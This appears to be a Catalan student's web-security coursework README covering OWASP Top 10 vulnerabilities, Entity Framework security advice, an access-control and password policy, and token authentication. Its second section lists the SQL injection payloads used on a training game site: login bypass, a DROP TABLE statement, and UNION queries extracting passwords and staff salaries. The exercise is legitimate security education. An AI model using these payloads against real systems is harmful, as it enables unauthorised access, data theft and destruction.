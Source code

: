 # T1. PR1. Seguretat i vulnerabilitat



1. **L’organització [OWASP Foundation](https://owasp.org/Top10/es/) va actualitzar en 2021 el seu Top 10 de vulnerabilitats més trobades en aplicacions web.** 

![](Res/mapping.png)

- **Escull 3 vulnerabilitats d’aquesta llista i descriu-les. Escriu l’impacte que tenen a la seguretat i quins danys pot arribar a fer un atac en aquesta vulnerabilitat. Enumera diferents mesures i tècniques per poder evitar-les.**

1. **Injecció de codi (Injection)**
   - **Impacte**: Permet a un atacant executar codi maliciós en la base de dades o el sistema afectat, comprometent la integritat de les dades.
   - **Danys potencials**: Fuga d'informació, alteració de dades, accés no autoritzat.
   - **Mesures de prevenció**:
     - Ús de sentències preparades (Prepared Statements).
     - Validació estricta d'entrada de dades.
     - Limitació de privilegis en la base de dades.

2. **Autenticació trencada (Broken Authentication)**
   - **Impacte**: Permet als atacants obtenir accés no autoritzat a comptes d'usuaris.
   - **Danys potencials**: Robatori d'identitat, accés a informació sensible, ús maliciós de comptes.
   - **Mesures de prevenció**:
     - Autenticació multifactorial (MFA).
     - Emmagatzematge segur de contrasenyes (bcrypt, Argon2).
     - Sessions segures i amb temps d'expiració.

3. **Exposició de dades sensibles (Sensitive Data Exposure)**
   - **Impacte**: La informació sensible pot ser robada o interceptada.
   - **Danys potencials**: Pèrdua de privacitat, frau financer, ús indegut de dades personals.
   - **Mesures de prevenció**:
     - Cifrat de dades en trànsit i en repòs (TLS, AES-256).
     - Control d’accés rigorós.
     - Evitar emmagatzemar dades sensibles innecessàries.
   



---


2. **Obre el següent enllaç ([sql inseckten](https://www.sql-insekten.de/)) i realitza un mínim de 7 nivells fent servir tècniques d’injecció SQL.**   
   - **Copia cada una de les sentències SQL resultant que has realitzat a cada nivell i comenta que has aconseguit.**  

      1. `SELECT username 
      FROM users 
      WHERE username ='jane'; --' AND password ='d41d8cd98f00b204e9800998ecf8427e';`

      2. `SELECT username 
      FROM users 
      WHERE username ='' ; DROP TABLE users; --' AND password ='d41d8cd98f00b204e9800998ecf8427e';`

      3. `SELECT username 
      FROM users 
      WHERE username ='' OR 1=1; --' AND password ='d41d8cd98f00b204e9800998ecf8427e';`

      4. `SELECT username 
      FROM users 
      WHERE username ='' OR 1=1 ORDER BY user_id LIMIT 1 --' AND password ='d41d8cd98f00b204e9800998ecf8427e';`

      5. `SELECT product_id, brand, size, price 
      FROM shoes 
      WHERE brand='' UNION select username, password from users; --';`

      6. `SELECT username 
      FROM users 
      WHERE username ='' UNION SELECT s.salary AS staff_salary FROM staff s WHERE s.firstname = 'Greta Maria' -- ' AND password ='d41d8cd98f00b204e9800998ecf8427e';`

      7. `SELECT product_id, brand, size, price 
      FROM shoes 
      WHERE brand='' UNION SELECT name, email, salary, employed_since FROM staff --';`

   - **Enumera i raona diferents formes que pot evitar un atac per SQL injection en projectes fets amb Razor Pages i Entity Framework.** 

### Consideracions de seguretat a seguir segons la documentació d'EF:

- Utilitzeu només proveïdors d'orígens de dades de confiança  
- Xifreu la connexió per protegir les dades confidencials  
- Protegiu la cadena de connexió  
- No exposeu `EntityConnection` a usuaris que no siguin de confiança  
- No passeu les connexions fora del context de seguretat  
- Tingueu en compte que la informació d'inici de sessió i les contrasenyes poden quedar visibles en un bolcat de memòria  
- Concediu als usuaris únicament els permisos necessaris a l'origen de dades  
- Executeu les aplicacions amb els permisos mínims  
- No instal·leu aplicacions que no siguin de confiança  
- Restringiu l'accés a tots els fitxers de configuració  
- Restringiu els permisos als fitxers d'assignació i de model  

### Consideracions de seguretat per a les consultes a la base de dades  

- Impediu els atacs d'injecció de SQL  
- Eviteu conjunts de resultats massa grans  
- Eviteu retornar resultats de `IQueryable` en exposar mètodes a autors de trucades que poden no ser de confiança  



3. **L’empresa a la qual treballes desenvoluparà una aplicació web de venda d’obres d’art. Els artistes registren les seves obres amb fotografies, títol, descripció i preu.  Els clients poden comprar les obres i poden escriure ressenyes públiques dels artistes a qui han comprat. Tant clients com artistes han d’estar registrats. L’aplicació guarda nom, cognoms, adreça completa, dni i telèfon. En el cas dels artistes guarda les dades bancaries per fer els pagaments. Hi ha un tipus d’usuari Acount Manager que s’encarrega de verificar als nous artistes. Un cop aprovats poden pública i vendre les seves obres.**

   **Ara es vol aplicar aplicant els principis  de seguretat per tal de garantir el servei i la integritat de les dades. T’han encarregat l'elaboració de part de les polítiques de seguretat. Elabora els següents apartats:**  
   - **Definició del control d’accés: enumera els rols  i quin accés a dades tenen cada rol.**   

    | Rol | Accés |
    |------|-------|
    | Client | Comprar obres, deixar ressenyes (A de estar registrat)|
    | Artista | Publicar i vendre obres (A de estar registrat, guarda dades bancaries)|
    | Account Manager | Aprovar artistes |
    | Admin | Accés complet |
   - **Definició de la política de contrasenyes: normes de creació, d’ús i canvi de contrasenyes. Raona si són necessàries diferents polítiques segons el perfil d’usuari.**  

        - Mínim **12 caràcters**, combinació de majúscules, minúscules, números i símbols.
        - Canvi cada **90 dies**.
        - Bloqueig temporal després de **5 intents fallits**.

   - **Avaluació de la informació: determina quin valor tenen les dades que treballa l'aplicació. Determina com tractar les dades més sensibles. Quines dades encriptaries?**
        - **Dades a encriptar**: DNI, telèfon, dades bancàries.
        - Utilitzaria un mètode d'encriptació per guardar a la base de dades les dades més sensibles.


---


4. **En el control d’accessos, existeixen mètodes d’autenticació basats en tokens. Defineix l’autenticació basada en tokens. Quins tipus hi ha? Com funciona mitjançant la web? Cerca llibreries .Net que ens poden ajudar a implementar autenticació amb tokens.**

L’autenticació basada en tokens és el procés de verificar la identitat mitjançant la validació d’un token. En la gestió d’accés, els servidors fan servir aquest sistema per confirmar la identitat d’un usuari, una API, un ordinador o un altre servidor.

Un token es un elemento simbólico que expide una fuente de confianza. 

### Tipus de tokens:

- Tokens d'accés
- Tokens d'identificació
- JWT autosignats
- Tokens d'actualització
- Fitxes al portador

Un **token web** és digital, no un objecte físic. Es tracta d'un missatge enviat per un servidor a un client, que el guarda de manera temporal. En les següents sol·licituds al servidor, el client adjunta una còpia del testimoni per verificar el seu estat d'autenticació.

Per implementar tokens a .NET podem utilitzar IdentityServer.



---


5. **Crea un projecte de consola amb un menú amb tres opcions:**  
   - **Registre: l’usuari ha d’introduir username i una password. De la combinació dels dos camps guarda en memòria directament l'encriptació. Utilitza l’encriptació de hash SHA256. Mostra per pantalla el resultat.**  
   - **Verificació de dades: usuari ha de tornar a introduir les dades el programa mostra per pantalla si les dades són correctes.**  
   - **Encriptació i desencriptació amb RSA. L’usuari entrarà un text per consola. A continuació mostra el text encriptat i en la següent línia el text desencriptat. L’algoritme de RSA necessita una clau pública per encriptar i una clau privada per desencriptar. No cal guardar-les en memòria persistent.**

	**Per realitzar aquest exercici utilitza la llibreria System.Security.Cryptography.**

6.  **Indica les referències que has consultat, seguint el següent format:**

https://learn.microsoft.com/es-es/dotnet/architecture/maui/authentication-and-authorization
https://www.cloudflare.com/es-es/learning/access-management/token-based-authentication/
https://cloud-google-com.translate.goog/docs/authentication/token-types?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=rq
https://learn.microsoft.com/es-es/dotnet/framework/data/adonet/ef/security-considerations
https://owasp.org/Top10/es/





[![Review Assignment Due Date](https://classroom.github.com/assets/deadline-readme-button-22041afd0340ce965d47ae6ef1cefeee28c7c493a6346c4f15d667ab976d596c.svg)](https://classroom.github.com/a/S9WTUTwx)
